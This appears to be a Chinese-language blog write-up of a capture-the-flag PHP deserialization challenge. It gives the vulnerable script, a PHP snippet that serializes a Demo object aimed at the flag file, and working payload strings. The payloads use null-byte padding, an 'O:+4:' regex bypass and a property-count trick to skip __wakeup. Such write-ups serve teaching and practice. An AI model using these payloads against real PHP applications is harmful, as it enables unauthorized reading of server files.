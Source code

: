 ```yaml
---
layout:     post
title:      "PHP反序列化"
subtitle:   ""
date:       2020-01-02
author:     "WuJ"
header-img: "img/post-bg-js-version.jpg"
tags:
    - 前端开发
    - JavaScript
    - 翻译
---
```


# PHP反序列化

#### 源码

```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else { 

        @unserialize($var); 
    } 
} else { 
    highlight_file("Gu3ss_m3_h2h2.php"); 
} 
?>
```

#### 魔术方法

```
__construct()	//当一个对象创建时被调用
__destruct() 	//对象被销毁时触发
__wakeup() 	//使用unserialize时触发
__sleep() 	//使用serialize时触发
__toString() 	//把类当做字符串时触发
__get() 	//用于从不可访问的属性读取数据
__set() 	//用于将数据写入不可访问的属性
```

####  构造反序列化字符串

```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

$a = new Demo("f15g_1s_here.php");
echo serialize($a)."\n";
echo base64_encode(serialize($a));
?>
```

#### 注意点

##### private私有成员的序列化

**对象的私有成员具有加入成员名称的类名称;受保护的成员在成员名前面加上'*'。这些前缀值在任一侧都有空字节。**

所以说，在我们需要传入该序列化字符串时，需要补齐两个空字节：

```php
O:4:”Demo”:1:{s:10:%00Demo%00file”;s:16:”f15g_1s_here.php”;}
```

注：可以使用 burpsuit 修改

##### 绕过正则匹配

```php
preg_match('/[oc]:\d+:/i', $var);
```

> 1. [xyz] 字符集合。匹配所包含的任意一个字符。例如，“[abc]”可以匹配“plain”中的“a”
> 2. ：就是冒号
> 3. \d是匹配一个数字字符相当于[0-9]
> 4. +匹配前面子表达式一次或多次

所以这个其实匹配了序列化字符串开始的部分O:4:
尝试了O:0x4:失败
最后用O:+4:绕过

##### 绕过wakeup

修改序列化字符串中对象的个数，使其不正确即可（即将“1”改成>="2"）

```php
O:+4:”Demo”:2:{s:10:%00Demo%00file”;s:16:”f15g_1s_here.php”;}
```
